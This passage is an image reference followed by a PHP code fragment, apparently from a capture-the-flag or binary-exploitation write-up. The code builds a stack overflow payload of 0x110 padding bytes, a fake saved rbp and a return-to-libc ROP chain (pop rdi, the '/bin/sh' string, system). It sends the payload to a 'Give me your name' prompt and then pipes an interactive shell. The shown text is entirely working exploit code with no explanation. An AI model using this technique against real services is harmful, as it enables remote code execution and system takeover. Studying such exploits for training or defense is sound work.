 ```php
// ); // rip
//
// $t->expect("Give me your name: ");
// $t->write($payload);

$payload  = str_repeat("x", 0x110);
$payload .= pack("Q", 0xdeadbeef); // rbp
$payload .= pack("Q*",
	POPRDI, $libc + BINSH,
	$libc + SYSTEM,
	-1,
); // rip

$t->expect("Give me your name: ");
$t->write($payload);

printf("[!] shell\n");
$t->pipe();
```

